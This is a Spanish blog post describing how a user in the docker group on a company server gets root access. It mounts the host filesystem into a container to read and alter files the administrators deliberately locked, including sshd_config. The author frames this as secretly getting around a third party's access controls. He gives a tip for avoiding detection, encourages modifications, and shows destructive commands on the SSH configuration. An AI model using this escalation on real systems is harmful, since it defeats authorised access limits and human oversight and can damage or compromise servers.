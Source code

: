 ```yaml
---
title: "Usando Docker para saltarse los permisos de Linux"
slug: "usando-docker-para-saltarse-los-permisos-de-linux"
date: 2018-12-17
categories: ['Operaciones']
tags: ['docker', 'permisos', 'linux']
---
```


Según el paradigma de externalización de mi empresa, todos los sistemas son gestionados por un tercero, a base de cambios. Por petición mia, tengo un usuario nominal de SSH y puedo entrar a mirar logs y configuraciones, pero no todas. Lo que no saben es que puedo hacer de todo.<!--more-->

El otro día intenté mirar una configuración de sistema (concretamente el `/etc/ssh/sshd_config`) para ver si había una configuración específica de enjaulado de los usuarios, puesto que se trata de un SFTP público.

```bash
gerard@atlantis:/etc/ssh$ cat sshd_config
cat: sshd_config: Permiso denegado
gerard@atlantis:/etc/ssh$
```

No se quien es el paranoico que pidió estos permisos, pero me toca pasar por el aro; o bien solicito que me lo pasen, o bien pido permisos de *sudo* o similar. Pero hay una manera que no va a tardar días, y que los técnicos que lo llevan no han controlado: el servidor tiene **docker** instalado, y mi usuario pertenece al grupo.

Eso me permite ejecutar un contenedor con el *uid* que yo quiera, siendo el *uid* por defecto el "0" que es el usuario **root**.

```bash
gerard@atlantis:~$ docker run -ti --rm -u 70 alpine:3.8
/ $ grep 70 /etc/passwd
postgres:x:70:70::/var/lib/postgresql:/bin/sh
/ $ whoami
postgres
/ $ id
uid=70(postgres) gid=70(postgres)
/ $
```

**NOTA**: La traducción entre el *uid* "70" y el usuario "postgres" se hace en base al fichero `/etc/passwd` **del contenedor**.

Solo nos queda montar el sistema de ficheros del servidor en una carpeta cualquiera como un volumen y así puedo ver y modificar lo que ya quiera.

```bash
gerard@atlantis:~$ docker run -ti --rm -v /:/host alpine:3.8
/ # whoami
root
/ # cat /host/etc/ssh/sshd_config
#       $OpenBSD: sshd_config,v 1.100 2016/08/15 12:32:04 naddy Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.
...
/ #
```

Si solo pretendéis ver, montad el volúmen con la opción *readonly*, y os váis a evitar elgún error que os pueda delatar. Sin embargo, si váis a hacer modificaciones meditadas y conscientes, adelante.

```bash
gerard@atlantis:~$ docker run -ti --rm -v /:/host:ro alpine:3.8
/ # whoami
root
/ # rm /host/etc/ssh/sshd_config
rm: remove '/host/etc/ssh/sshd_config'? y
rm: can't remove '/host/etc/ssh/sshd_config': Read-only file system
/ # echo 'destroyed' > /host/etc/ssh/sshd_config
/bin/sh: can't create /host/etc/ssh/sshd_config: Read-only file system
/ # truncate -s 0 /host/etc/ssh/sshd_config
truncate: /host/etc/ssh/sshd_config: open: Read-only file system
/ #
```

Recordad que lo que hagáis a partir de aquí queda bajo vuestra propia responsabilidad... Sed cautos
